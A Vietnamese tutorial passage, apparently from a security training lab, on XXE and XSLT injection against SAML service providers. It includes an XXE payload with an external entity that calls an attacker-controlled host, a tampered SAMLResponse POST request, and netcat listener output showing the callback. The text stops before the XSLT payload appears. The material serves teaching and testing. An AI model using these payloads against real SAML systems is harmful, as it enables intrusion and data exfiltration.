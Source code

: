 # 4. Các lỗ hổng bổ sung trong SAML

SAML sử dụng định dạng dữ liệu XML để biểu diễn dữ liệu, do đó các triển khai SAML bị lỗi có thể dễ bị tấn công thông qua các cuộc tấn công vào dữ liệu dạng XML. Hai kiểu tấn công phổ biến là **eXternal Entity Injection (XXE)** và **XSLT Server-side Injection**.

### Tấn công XXE (External Entity Injection)
Nếu nhà cung cấp dịch vụ SAML sử dụng một bộ phân tích XML (XML parser) cấu hình sai và cho phép tải các thực thể bên ngoài, hệ thống có thể bị tấn công XXE. Chúng ta có thể thử tiêm một payload XXE vào phản hồi SAML để kiểm tra lỗ hổng này. Ví dụ, chúng ta có thể tiêm một payload để thử kết nối đến một hệ thống dưới quyền kiểm soát của mình như sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
```

Để tiêm payload, chúng ta cần có bản XML của phản hồi SAML, giống như các bước đã thực hiện trước đó. Sau đó, ta có thể tiêm payload vào đầu phản hồi SAML, kết quả là cấu trúc như sau:

```xml
<samlp:Response>
[...]
</samlp:Response>
```

Sau khi mã hóa Base64 và URL hóa dữ liệu XML, chúng ta có thể gửi phản hồi SAML đã bị thay đổi:

```
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 6205
Content-Type: application/x-www-form-urlencoded
SAMLResponse=PD94bWw[...]%3d&RelayState=%2Facs.php
```

Nếu nhà cung cấp dịch vụ bị lỗ hổng XXE, chúng ta sẽ nhận được kết nối đến hệ thống đã chỉ định. Ví dụ, ta có thể lắng nghe kết nối tại cổng 8000:

```
nc -lnvp 8000
listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52206
GET / HTTP/1.1
Host: 172.17.0.1:8000
Connection: close
```

Lỗ hổng này thường không hiển thị dữ liệu kết quả cho chúng ta, do đó đây là một lỗ hổng mù, khiến cho việc khai thác trở nên phức tạp hơn. Chi tiết hơn về XXE có thể tham khảo trong module Web Attacks.

### Tấn công XSLT Server-side Injection
Tương tự như XXE, nếu bộ phân tích XML bị cấu hình sai, nó có thể dễ bị tấn công XSLT Server-side Injection, tùy thuộc vào cách bộ phân tích XML xử lý dữ liệu phản hồi SAML. Cũng giống như trước, chúng ta có thể thử tiêm một payload XSLT để tạo kết nối đến một máy chủ dưới quyền kiểm soát của mình. Payload XSLT có thể trông như sau:
